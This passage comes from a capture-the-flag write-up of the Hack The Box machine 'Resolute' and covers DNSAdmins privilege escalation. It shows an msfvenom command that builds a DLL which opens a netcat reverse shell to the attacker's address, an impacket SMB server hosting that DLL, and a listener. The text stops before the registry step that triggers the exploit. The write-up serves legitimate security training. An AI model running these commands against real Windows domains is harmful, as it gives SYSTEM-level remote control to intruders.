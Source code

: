 But for now, DNSadmins looks like the way to go. I am not sure if it is a well-known group or if its custom. Onwards and upwards to google.

Its always a good sign if you find an article by [Sean Metcalf](https://adsecurity.org/) talking about exactly what you are looking for. In a [post from October 2018](https://adsecurity.org/?p=4064), Sean talks about a technique where a user account which has merely write access to a DNS server object can load an arbitrary DLL as `SYSTEM`. His post is talking about a finding by [Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) from 2017. I feel like I am hot on the trail of this machine's root flag. It doesn't look *too* difficult so even I can do it.

I also found an additional blog post from [SamratAshok](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) that spelled out what steps I need to take a little more clearly.

First I need to weaponize a DLL, msfvenom is the cool tool for that. Since I know this is a windows server 2016 box, it only comes in the 64-bit platform so I am going to use that and just a simple netcat reverse shell back to me and call it a dll:

```console
root@discovery:~/htb/resolute# msfvenom -p windows/x64/exec cmd='\\10.10.14.75\resolute\nc.exe 10.10.14.75 42069 -e cmd.exe' -f dll > payload.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 326 bytes
Final size of dll file: 5120 bytes
```

Next, I'll need to host it on an SMB share. Also from a previous box, I had in my notes an [impacket](https://github.com/SecureAuthCorp/impacket) tool called [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py). This was actually kind of a pain in the ass to get setup, impacket didn't install nicely last time and I just ignored it and never went back to fix it. So it took me about an hour to fully set this part up. I know I could have just copied the raw script over and run it, but whatever.

```console
root@discovery:~/htb/resolute# python smbserver.py -smb2support resolute /root/htb/resolute/
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

and then I need to start my listener:

```console
root@discovery:~/htb/resolute# nc -lvnp 42069
listening on [any] 42069 ...
```

So I am all set up locally, now I need to trigger the exploit on the remote machine. To do so first I need to modify the registry key with a link to my malicious dll on my smb share:
